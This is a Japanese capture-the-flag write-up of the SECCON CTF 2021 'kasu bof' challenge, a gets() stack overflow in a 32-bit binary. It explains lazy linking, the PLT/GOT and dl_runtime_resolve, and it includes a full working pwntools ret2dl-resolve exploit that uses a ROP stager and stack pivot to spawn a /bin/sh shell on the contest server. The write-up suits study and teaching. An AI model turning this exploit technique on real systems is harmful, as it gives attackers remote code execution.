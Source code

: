 # SECCON CTF 2021 `kasu bof [pwn]` writeup
お初にお目にかかります。
Caffeineと申します☕

SECCON CTF 2021にチームWaniHackaseとして参加させていただきました。

## 問題

![kasu bof](problem.png)

実行ファイルとそのソースコードが配布されている。

```c
#include <stdio.h>

int main(void) {
  char buf[0x80];
  gets(buf);
  return 0;
}
```

## 解法
最初に取り掛かったのはチームメイトのsaruさん。
何はともあれセキュリティ機構のチェックから
```
[*] '/home/saru/autopwn/db/2021/12_seccon/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loading gadgets for 
```
canaryがないことからBoFだろうとのこと。
PIEも無効なので実行ファイルのアドレスは最初から分かっている。
gets関数のリターンアドレスを書き換えてROPに持ち込むことができそう。

以降の指針は問題文内で示されている。を見ればret2dl resolve attackを使えばいいとのことらしい。が、勉強したことがない。
私よりpwn歴の長いチームメンバーも初対面の問題だった様子。
過去のwriteupや解説記事をチームで共有しながら理解を深めて地道に取り組んでいくことに。

### ret2dl resolve attackとは
ret2dl resolve attackはELFの遅延リンクの仕組みを利用して共有ライブラリ内の関数を呼び出す攻撃手法。
遅延リンクとは、Partial RELROにおいて関数が最初に呼び出された時に外部アドレスをGOTにキャッシュする方式である。
遅延リンクはPLTによって実現される。
配布されたプログラムを例にPLTのはたらきを解説する。

![kasu bof](plt.png)

まず、初回の関数呼び出しの例を見ていこう。
main関数内でgets関数が呼ばれる。
呼び出し先は.pltセクション内のgets関数がエントリされているアドレスである (①)。
.pltセクション内のgets関数は、.got.pltセクションのgets関数がエントリされているアドレスを呼び出す (②)。
.got.pltセクション内のgets関数は呼び出し元となる.pltセクション内の機械語の次のアドレスを指す (③)。
.pltセクション内に戻ると、スタックに0x0をpushしたのちに (後述).pltセクションの先頭のアドレスにjmpする (④)。
.pltセクションの先頭のアドレスでは、0x804c004にあるアドレスをpushした後に0x804c008にあるアドレスを参照してjmpする(⑤)。
0x804c004と0x804c008は.got.pltセクション内のアドレスであり、実行時にはそれぞれ.bssセクションの後ろのアドレス、dl_runtime_resolve関数のアドレスが入る。
dl_runtime_resolve関数は.bssセクションの後ろのアドレスと.pltセクションでスタックにpushした0x0を引数に取ってアドレス解決を行う。
アドレス解決が行われると、GOTのgets関数のエントリがlibc上のgets関数のアドレスに書き換えられる。
その後、得られたlibc上のgets関数のアドレスにjmpする。

続いて2回目以降の関数呼び出しの例を確認する。
.pltセクション内のgets関数がエントリされているアドレスを呼び出し先に、main関数内でgets関数が呼ばれる (①)。
.pltセクション内のgets関数は、GOTのgets関数のエントリを参照する (②)。
gets関数の初回実行時にlibc上のアドレスがキャッシュされているはずなので、アドレス解決の過程を経ずにgets関数のアドレスにjmpする (③)。

![kasu bof](dl_runtime_resolve.png)

関数の初回実行時にdl_runtime_resolve関数で行われるアドレス解決の流れを図示する。
dl_runtime_resolve関数や後述のリンクテーブルの実装はアーキテクチャによって実装が異なるが、今回は32ビットアーキテクチャを例に解説する。
dl_runtime_resolve関数は、.rel.pltセクションの先頭アドレスから第2引数 (例においては0x0)だけオフセットしたアドレスを参照する (①)。
.rel.pltはリロケーションテーブルと呼ばれ、各要素はr_offsetとr_infoの2つのメンバからなる構造体である。
r_offsetは当該関数のGOTのアドレスを示す。
r_infoは上位8ビットに.dynsymセクションにおける当該関数のインデックスを、下位8ビットには再配置の種類を保持する。
r_infoの上位8ビットを基に、.dynsymセクションの対応するインデックスの要素を見る (②)。
.dynsymはシンボルテーブルと呼ばれ、各要素はst_name、st_value、st_size、st_info、st_other、st_shndxの6つのメンバを持つ構造体として実装される。
各メンバのうち、動的リンクに深く関わるのはst_nameである。
dl_runtime_resolve関数は.dynstrセクションの先頭からst_nameだけオフセットした位置にある文字列を参照する (③)。
参照された文字列を基に名前解決を行い (④)、得られたlibc上のアドレスをr_offsetが示すGOTのアドレスに上書きする (⑤)。

![kasu bof](ret2dl_resolve_attack.png)

ret2dl resolve attackでは、上図のような挙動を狙う。
一見すると.dynstrの当該文字列を書き換えるだけだが、実際には.dynstrセクションに書き込み権限はない。
そこで、dl_runtime_resolve関数の第2引数のオフセットを調整して自作した偽のリンク機構を動作させることを狙ってみる。
リンクを作成するために用意したテーブルのアドレスを知っておく必要があるが、固定アドレスへの書き込みが可能であればret2dl resolve attackが達成できる

### Exploit
まず固定アドレスへの書き込みを実現するために.bssセクションを狙ったROP stagerを行う。
.bssセクションにデータを書き込んでstack pivotした後は、.pltセクションの先頭のアドレスにjmpする。
前述の通り第2引数のオフセットを調節してdl_runtime_resolve関数を呼べば、自作した動的リンクを経てsystem関数が呼び出せる。

気を付けなくてはならないのは、dl_runtime_resolve関数が各種健全性テストを行っていること。
具体的には
+ .rel.pltを構成する構造体のメンバr_infoの下位8ビットが0x7であること。
  + 遅延リンクによる起動であることを示す。
+ .dynsymを構成する構造体のメンバst_infoが0x12であること。
  + シンボルがグローバル関数であることを示す
+ .dynsymの構造体が.dynsymセクションの先頭アドレスから0x10バイトの整数倍進んだアドレスに配置されていること。
  + .dynsymを構成する構造体のサイズが0x10バイトであるため。

を確認している。

以上を踏まえてexploit codeを作成する。

```py
import pwn
import sys

buf_size = 132

# 必要なアドレスのリーク
addr_dynsym_start = 0x804820c
addr_dynstr_start = 0x804825c
addr_relplt_start = 0x80482d8
addr_plt_start = 0x8049030
addr_plt_gets = 0x8049040
addr_got_gets = 0x804c00c
addr_bss = 0x804c01c

# ROP gadget
addr_pop_ebx = 0x08049022    # pop ebx ; ret ;
addr_pop_ebp = 0x080491ae    # pop ebp ; ret ;  
addr_leave_ret = 0x080490e5  # leave  ; ret ;

# pivot先のアドレス
stack_size = 0x800
addr_base_stage = addr_bss + stack_size
reloc_offset = (addr_base_stage + 20) - addr_relplt_start
addr_sym = addr_base_stage + 28
align_dynsym = 0x10 - ((addr_sym - addr_dynsym_start) & 0xF)
addr_sym += align_dynsym
index_dynsym = (addr_sym - addr_dynsym_start) // 0x10
r_info = (index_dynsym << 8) | 0x7
addr_arg = addr_base_stage + 80
st_name = (addr_sym + 16) - addr_dynstr_start

# 文字列の準備
system = b"system\x00"
binsh = b'/bin/sh <&2 >&2\x00'

io = pwn.remote("hiyoko.quals.seccon.jp", 9001)
# io = pwn.process("./chall")

# ROP stager
s = b"A" * buf_size
s += b"AAAA" 
s += pwn.p32(addr_plt_gets)
s += pwn.p32(addr_pop_ebx)
s += pwn.p32(addr_base_stage)
s += pwn.p32(addr_pop_ebp)
s += pwn.p32(addr_base_stage)
s += pwn.p32(addr_leave_ret)
s += b"\n"

io.send(s)

# ret2dl resolve attack
s = b"AAAA"
s += pwn.p32(addr_plt_start)
s += pwn.p32(reloc_offset)
s += b"AAAA"
s += pwn.p32(addr_arg)
s += pwn.p32(addr_got_gets)
s += pwn.p32(r_info)
s += b'A' * align_dynsym
s += pwn.p32(st_name)
s += pwn.p32(0)
s += pwn.p32(0)
s += pwn.p32(0x12)
s += system
print(len(s))
s += b'A' * (80-len(s))
s += binsh
s += b'A' * (100-len(s))
s += b"\n"

io.send(s)

io.interactive()
```

FLAG: `SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}`

## 参考記事
+ ももいろテクノロジー，"ROP stager + Return-to-dl-resolveによるASLR+DEP回避" https://inaz2.hatenablog.com/entry/2014/07/15/023406
+ sounakano，"ret2dl resolve - SlideShare" https://www.slideshare.net/sounakano/ret2dl-resolve
+ "CTF Pwn - A painter and a black cat" https://raintrees.net/projects/a-painter-and-a-black-cat/wiki/CTF_Pwn